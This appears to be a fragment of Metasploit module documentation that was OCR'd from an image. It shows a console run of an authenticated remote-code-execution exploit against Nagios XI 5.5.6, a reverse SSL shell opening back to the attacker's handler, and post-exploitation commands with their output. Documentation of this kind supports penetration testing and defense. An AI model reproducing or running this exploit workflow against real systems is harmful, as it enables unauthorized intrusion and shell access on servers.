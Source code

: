 ```
   2   CMD



View the full module info with the info, or info -d command.

msf exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > exploit

[*] Started reverse SSL handler on 192.168.104.2:8443 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Attempting to authenticate to Nagios XI...
[+] Successfully authenticated to Nagios XI.
[*] Target is Nagios XI with version 5.5.6.
[+] The target appears to be vulnerable.
[*] Sending the payload...
[*] Command shell session 1 opened (192.168.104.2:8443 -> 192.168.104.18:58930) at 2023-02-07 14:27:41 -0500
id
uid=48(apache) gid=48(apache) groups=48(apache),1000(nagios),1001(nagcmd)
whoami
apache
uname -a
Linux localhost.localdomain 3.10.0-862.14.4.el7.x86_64 #1 SMP Wed Sep 26 15:12:11 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
```
